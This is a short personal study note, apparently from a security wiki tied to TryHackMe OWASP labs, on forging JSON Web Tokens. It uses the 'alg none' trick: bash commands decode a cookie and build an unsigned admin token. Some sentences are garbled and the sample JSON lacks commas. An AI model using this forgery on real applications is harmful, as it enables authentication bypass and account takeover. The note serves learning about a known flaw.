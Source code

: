 # JSON Web Tokens

[[JSON]]

Common Terms | Description/Human Readable
--- | --- 
`nbf <epoch>` |Not before
`exp` | expires

It vulnerable is misconfigured as Data Integrity Failure - see [[OWASP-Top-10-Historic-Definitions]] 

JSON Web Tokens [https://jwt.io/](https://jwt.io/). These are JSON base64 encoded  chunks delimited by dots. 
```json
{
	// Header
	"type":"JWT"
	"alg":"none"
}

{
	// Payload
	"username":"admin"
	"exp":"1234567890"
}

// signature is the signing algorithm used in "alg":
...

// go from 
{HEADER}.{PAYLOAD}.SIGNATURE
// To - do not forget the final dot if you set the signing algorithm to none parser will still expect the .
{HEADER}.{PAYLOAD}.
```

Workflow - Add a space in plain text payloads to bypass base64 encoded payloads have `+` that denote a space between a dangerous character. Avoid it being URL encoded to a URL encoded `+` character and breaking the base64.
```bash
# copy into a file
cat cookie | awk -F. '{print $1}' | base64 -d
cat cookie | awk -F. '{print $2}' | base64 -d

# Then given the fields of the json 
# beware of escaping the quotations in Json 
echo "{\"typ\":\"JWT\",\"alg\":\"none\"}" | base64 | tr -d '=' && echo "{\"username\":\"admin\",\"exp\":1687860563}" | base64 | tr -d '='

# Piece together with two dots
$1.$2.
```


## Reference

[https://jwt.io/](https://jwt.io/)
[THM OWASP TOP 10 2021 Room](https://tryhackme.com/room/owasptop102021)
[Ippsec Rocks](https://ippsec.rocks)